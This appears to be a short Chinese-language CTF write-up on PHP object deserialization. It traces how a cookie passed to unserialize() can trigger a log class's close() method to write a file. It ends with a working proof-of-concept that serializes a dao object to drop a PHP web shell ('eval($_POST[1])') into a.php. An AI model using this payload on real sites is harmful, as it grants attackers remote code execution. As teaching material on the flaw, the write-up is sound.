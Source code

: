 ```php
class log{
	public $title='log.txt';
	public $info='';
	public function loginfo($info){
		$this->info=$this->info.$info;
	}
	public function close(){
		file_put_contents($this->title, $this->info);
	}
}
```

再看在哪会调用到close()

![](https://i.loli.net/2021/10/06/6OK2LMUqgoYk17l.png)

dao.php: （require class.php）

![](https://i.loli.net/2021/10/06/YVGdTWU5nfE1Do9.png)

那么只要让dao->conn为log类，就会在反序列化时触发close方法~

再找包含dao.php进行反序列化的地方

index.php:

```php
<?php
session_start();
require "conn.php";
require "dao.php";
$user = unserialize(base64_decode($_COOKIE['user']));
# ...
```

poc:

```php
<?php

class dao{
    private $conn;
        public function __construct(){
        $this->conn=new log();
    }
}

class log{
    public $title='a.php';
    public $info='<?php eval($_POST[1]);?>';
}

$a = new dao();
echo base64_encode(serialize($a));
```
